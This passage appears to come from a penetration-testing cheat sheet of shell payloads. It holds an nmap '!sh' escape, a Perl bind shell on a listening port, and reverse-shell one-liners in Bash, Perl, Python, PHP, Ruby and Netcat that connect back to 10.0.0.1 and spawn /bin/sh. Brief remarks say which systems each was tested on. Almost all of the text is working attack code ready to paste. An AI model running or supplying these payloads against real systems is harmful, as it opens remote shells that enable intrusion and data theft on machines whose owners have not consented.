 (From within nmap)
```
	!sh
```

### Bind Shells

https://github.com/infodox/exploits/blob/master/payloads/linux/perl.py
	
Perl Bind Shell (Port 1000)
```
	perl -e 'use Socket;$p=10000;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));bind(S,sockaddr_in($p, INADDR_ANY));listen(S, SOMAXCONN);for(; $p= accept(C, S); close C) {open(STDIN,">&C");open(STDOUT,">&C");open(STDERR,">&C");exec("/usr/bin/bash -i");};'
```

### Reverse Shells

Bash
Some versions of bash can send you a reverse shell (this was tested on Ubuntu 10.10):
```
	bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

PERL

Here’s a shorter, feature-free version of the perl-reverse-shell:
```
	perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

Python
This was tested under Linux / Python 2.7:
```	
	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

PHP

This code assumes that the TCP connection uses file descriptor 3.  This worked on my test system.  If it doesn’t work, try 4, 5, 6…
```	
	php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

Ruby
```
	ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

Netcat
Netcat is rarely present on production systems and even if it is there are several version of netcat, some of which don’t support the -e option.
```
	nc -e /bin/sh 10.0.0.1 1234
```
